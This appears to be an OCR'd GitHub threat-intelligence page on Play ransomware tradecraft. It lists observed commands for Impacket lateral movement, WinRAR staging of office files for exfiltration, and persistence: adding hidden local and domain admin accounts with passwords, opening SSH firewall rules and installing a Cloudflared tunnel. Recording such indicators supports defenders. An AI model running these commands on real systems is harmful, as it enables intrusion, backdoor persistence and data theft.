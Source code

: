    -NOTEPAD.EXE C:\ProgramData\tb.txt
 - Grixba (https://fieldeffect.com/blog/grixba-play-ransomware-impersonates-sentinelone, https://www.security.com/threat-intelligence/play-ransomware-volume-shadow-copy)
 - PingCastle
 - Sharphound
 - VirtualMachine enumeration was observed with RVTools
 - ldapdomaindump

<br>

**Lateral Movement**
 - RDP for hosts
 - SSH for esxi / Nas
 - NetExec
 - PsExec
 - Impacket atexec.py
   - `C:\Windows\System32\cmd.exe /Q /c quser 1> \Windows\Temp\RANDOMIZED_STRING 2>&1 (Example of impacket)`
 - MobaXterm
 - WinRm using Ruby client
<br>

 **Exfil and staging**
 - `"C:\Program Files\WinRAR\WinRAR.exe" a -ep1  -scul -r0 -iext -imon1 -- . X:\[Redacted]`
 - `c:\ProgramData\winrar.exe`
 - `C:\ProgramData\winrar-x64-712.exe`
 - `winrar.exe a -m0 -v3g -tn365d -n*.txt -n*.pdf -n*.xls -n*.doc -n*.xlsx -n*.docx -n*.BAK -n*.MDB  "C:\Data" "\\"<redacted>"`
 - `C:\ProgramData\shares.txt`
 - `"C:\Program Files\FileZilla FTP Client\fzsftp.exe" -v`
 - Rclone
 - 7zip
 - bitwise ssh client
 - browser (easyupload.io)
<br>

**Persistence**
- `"C:\Windows\System32\msiexec.exe" /i "C:\ProgramData\OpenSSHa.msi"`
- `"C:\Windows\system32\net.exe" user lockadmin Msnc?42da /add`
- `"C:\Windows\system32\reg.exe" add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v commuser /d 0 /f`
- `net user [REDACTED] VRT83g$%ce /add`
- `net localgroup Administrators [redacted] /add`
- `net localgroup "Remote Desktop Users" [redacted] /add`
- `net  group "Domain Admins" azuresync /add`
- `cmd.exe /Q /c net user backupSQL Password123$ /add /dom 1> \\Windows\\Temp\\tinhLg 2>&1`
- `cmd.exe /Q /c net group "Domain Admins" backupSQL  /dom /add 1> \Windows\Temp\NDqyOI 2>&1`
- Cloudflared tunnel  (`C:\programdata\ssh\cloudflared.exe`)
   - `New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server(sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22`
 
cloudflared[.]exe service install REDACTED
- `C:\ProgramData\cloudflared_msi_install.log.`
_BASE64_TOKEN
- Chrome remote desktop
- Anydesk
